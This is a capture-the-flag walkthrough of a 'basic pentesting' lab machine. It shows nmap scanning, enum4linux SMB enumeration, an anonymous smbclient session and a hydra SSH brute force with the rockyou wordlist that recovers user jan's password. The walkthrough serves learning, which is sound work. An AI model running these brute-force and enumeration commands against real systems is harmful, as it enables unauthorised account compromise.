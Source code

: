 #### basic pentesting 

export IP: 10.10.35.77

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration


The main goal here is to learn as much as possible. Make sure you are connected to our network using your OpenVPN configuration file.

Credits to Josiah Pierce from Vulnhub.

Deploy the machine and connect to our network

Find the services exposed by the machine

- use nmap to scan for available ports
```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/basic_pentesting]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.35.77 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 00:57 EDT
Nmap scan report for 10.10.35.77
Host is up (0.35s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-15T04:58:20
|_  start_date: N/A
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2022-08-15T00:58:20-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.30 seconds

```


What is the name of the hidden directory on the web server(enter name without /)?
Ans. development


Use brute-forcing to find the username & password
-Used enum4linux for discovering SMB shares and hopefully to look for passwords also:

```
enum4linux -a 10.10.35.77 -o smb_enum.txt
```


What is the username?
Ans. Jan

```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)


```

What is the password?
Ans. armando

```

┌──(kali㉿kali)-[~/ken/MoonShine/CTF/basic_pentesting]
└─$ smbclient //10.10.40.174/anonymous
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.40.174\anonymous\
smb: \> dir
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018
get star
                14318640 blocks of size 1024. 11093576 blocks available
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> 
```

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/basic_pentesting]
└─$ hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.40.174 ssh
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-15 03:17:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.40.174:22/
[STATUS] 128.00 tries/min, 128 tries in 00:01h, 14344273 to do in 1867:45h, 14 active
[STATUS] 98.67 tries/min, 296 tries in 00:03h, 14344105 to do in 2422:60h, 14 active
[STATUS] 92.29 tries/min, 646 tries in 00:07h, 14343755 to do in 2590:28h, 14 active
[22][ssh] host: 10.10.40.174   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-15 03:26:26
                                                                                                                      
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/basic_pentesting]
└─$ 

```



